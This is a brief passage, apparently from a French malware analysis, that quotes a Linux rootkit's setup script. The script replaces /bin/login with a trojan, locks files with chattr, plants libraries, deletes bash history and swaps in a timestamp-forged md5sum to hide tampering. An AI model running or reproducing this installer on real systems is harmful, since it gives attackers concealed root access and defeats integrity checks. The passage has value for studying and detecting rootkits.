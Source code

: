 Reprenons l'analyse du setup :

```bash
# restoring login
if [ -f /sbin/xlogin ]; then
  chattr -isa /sbin/xlogin
  chattr -isa /bin/login
  mv -f /sbin/xlogin /bin/login
  chmod 7455 /bin/login
  chattr +isa /bin/login
fi

echo "${DCYN}[${WHI}sh${DCYN}]# [Installing trojans....] ${BLU} ${RES}"

if [ -f /etc/sh.conf ]; then
  chattr -isa /etc/sh.conf
  rm -rf /etc/sh.conf
fi

# checking if we got needed libs and filez
if [ ! -f /lib/libproc.a ]; then
  mv lib/libproc.a /lib/
fi

if [ ! -f /lib/libproc.so.2.0.6 ]; then
  mv lib/libproc.so.2.0.6 /lib/
fi

/sbin/ldconfig >/dev/null 2>&1

#if [ -f /lib/libncurses.so.5 ]; then
#  echo ""
#else
#  ln -s /lib/libncurses.so.4 /lib/libncurses.so.5 2>/dev/null
#fi

if [ -f /.bash_history ]; then
  chattr -isa /.bash_history >/dev/null 2>&1
  rm -rf /.bash_history
fi

if [ -f /bin/.bash_history ]; then
  chattr -isa /bin/.bash_history
  rm -rf /bin/.bash_history
fi

if [ ! -f /usr/bin/md5sum ]; then
  touch -acmr /bin/ls bin/md5sum
  cp bin/md5sum /usr/bin/md5sum
fi
```
